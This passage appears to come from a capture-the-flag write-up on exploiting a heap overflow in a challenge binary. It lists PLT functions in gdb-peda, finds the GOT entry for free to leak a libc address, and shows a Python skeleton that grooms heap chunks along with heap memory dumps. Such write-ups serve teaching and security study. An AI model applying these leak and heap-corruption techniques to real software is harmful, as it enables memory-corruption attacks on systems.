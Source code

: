 I can get a list of functions in `gdb` (run before starting the program or a
bunch more junk will be added):

    
    
    gdb-peda$ info functions 
    All defined functions:
    
    Non-debugging symbols:
    0x00000000004007f0  free@plt
    0x0000000000400800  putchar@plt
    0x0000000000400810  strncpy@plt
    0x0000000000400820  puts@plt
    0x0000000000400830  strlen@plt
    0x0000000000400840  __stack_chk_fail@plt
    0x0000000000400850  setbuf@plt
    0x0000000000400860  strchr@plt
    0x0000000000400870  printf@plt
    0x0000000000400880  read@plt
    0x0000000000400890  fgets@plt
    0x00000000004008a0  strtol@plt
    0x00000000004008b0  malloc@plt
    0x00000000004008c0  exit@plt
    0x00000000004008d0  sleep@plt
    

I need a function to leak, so I’ll pick `free` arbitrarily (any of these
functions would be equally useful to leak). The output above gives the PLT
addresses for each function. I need the GOT address (which will point to the
function in libc), which I can get by inspecting the first instruction at the
PLT address:

    
    
    gdb-peda$ x/i 0x00000000004007f0
       0x4007f0 <free@plt>: jmp    QWORD PTR [rip+0x202782]        # 0x602f78 <free@got.plt>
    gdb-peda$ x/xg 0x602f78
    0x602f78 <free@got.plt>:        0x00007f0653a1b1d0
    

I’ll record 0x602f78, the GOT address for `free`, for later.

I’ll start with this skeleton:

    
    
    new_config('dummy1', 0x18, 'to be deleted')
    new_config('leak', 0x18, 'to be overwritten')
    del_config(0)
    new_config('overwriter', 0x18, 'overflow')
    pdb.set_trace()
    

I’ll connect with `gdb` and look at the heap:

    
    
    gdb-peda$ x/8xg 0x603060
    0x603060:       0x0000000000f2f260      0x0000000000f2f2c0
    0x603070:       0x0000000000000000      0x0000000000000000
    0x603080:       0x0000000000000000      0x0000000000000000
    0x603090:       0x0000000000000000      0x0000000000000000
    gdb-peda$ x/26xg 0x0000000000f2f260
    0xf2f260:       0x746972777265766f      0x0000000000007265  # "overwriter"
    0xf2f270:       0x0000000000000000      0x0000000200000001
    0xf2f280:       0x0000000400000003      0x0000000000000018
    0xf2f290:       0x0000000000f2f2a0      0x0000000000000021  # 0xf2f2a0 --> desc
    0xf2f2a0:       0x776f6c667265766f      0x0000000000007265  # "overflow"
    0xf2f2b0:       0x0000000000000000      0x0000000000000041
    0xf2f2c0:       0x000000006b61656c      0x0000000000000000
    0xf2f2d0:       0x0000000000000000      0x0000000200000001
    0xf2f2e0:       0x0000000400000003      0x0000000000000018
    0xf2f2f0:       0x0000000000f2f300      0x0000000000000021  # 0xf2f300 --> desc